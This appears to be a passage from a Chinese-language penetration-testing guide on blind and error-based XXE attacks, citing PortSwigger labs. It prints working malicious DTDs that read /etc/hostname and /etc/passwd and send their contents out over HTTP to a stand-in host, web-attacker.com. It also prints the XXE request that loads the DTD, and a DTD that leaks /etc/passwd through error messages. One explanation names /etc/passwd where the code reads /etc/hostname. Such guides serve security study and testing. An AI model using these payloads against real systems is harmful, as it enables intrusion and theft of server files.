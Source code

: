 ### Blind SSRF - 带外泄露数据

通过 XXE 漏洞控制服务器加载攻击者vps的恶意 DTD，DTD 中的 Payload 将通过 HTTP 请求发送文件的内容（对于多行文件，可以尝试通过 **_**ftp://**_** 协议泄露数据)。此解释取自 **[**Portswiggers lab here**](https://portswigger.net/web-security/xxe/blind) 。**

恶意 DTD 泄露 `/etc/hostname` 文件内容的示例：

```markup
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

恶意 DTD 执行流程解释:

* 定义一个名为 `file` 的 XML 参数实体，包含 `/etc/passwd` 文件的内容。
* 定义一个名为 “eval” 的 XML 参数实体，其中包含另一个名为“exfiltrate”的 XML 参数实体的动态声明。 `exfiltrate` 实体将通过向攻击者的 Web 服务器发出 HTTP 请求来评估，该请求包含 URL 查询字符串中的 `file` 实体的值。
* 使用 `eval` 实体，这会导致执行 `exfiltrate` 实体的动态声明。
* 使用 `exfiltrate` 实体，通过http协议访问指定url，泄露特定数据。

攻击者必须将恶意 DTD 托管在他们控制的系统上，通常是将其加载到他们自己的服务器上。例如，攻击者可能会在以下 URL 提供恶意 DTD：\
`http://web-attacker.com/malicious.dtd`

最后，攻击者必须向易受攻击的应用程序提交以下 XXE Payload：

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

这个 XXE Payload 声明了一个名为 “xxe” 的 XML 参数实体，然后使用 DTD 中的实体。这导致 XML 解析器从攻击者的服务器获取外部 DTD 并内联解释它。然后执行恶意 DTD 中定义的步骤，并将 `etc/hostname` 文件内容传输到攻击者的服务器。

### 基于错误 XXE 攻击(外部 DTD)

**在这种情况下，我们将让服务器加载一个恶意 DTD，该 DTD 将在错误消息中显示文件的内容（这仅在您可以看到错误消息时才有效）。** [**Example from here.**](https://portswigger.net/web-security/xxe/blind)

使用恶意外部 DTD 触发包含 `/etc/passwd` 文件内容的 XML 解析错误消息，如下所示：

```markup
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

此 DTD 执行以下步骤：

* 定义一个名为 `file` 的 XML 参数实体，包含 `/etc/passwd` 文件的内容。
* 定义一个名为 `eval` 的 XML 参数实体，其中包含另一个名为 `error` 的 XML 参数实体的动态声明。 `error` 实体将加载一个不存在的文件，该文件的名称包含 `file` 实体的值。
* 使用 `eval` 实体，这会导致执行 `error` 实体的动态声明。
* 使用 `error` 实体，尝试加载不存在的文件，从而导致错误消息包含不存在文件的名称，即 `/etc/passwd` 文件的内容。

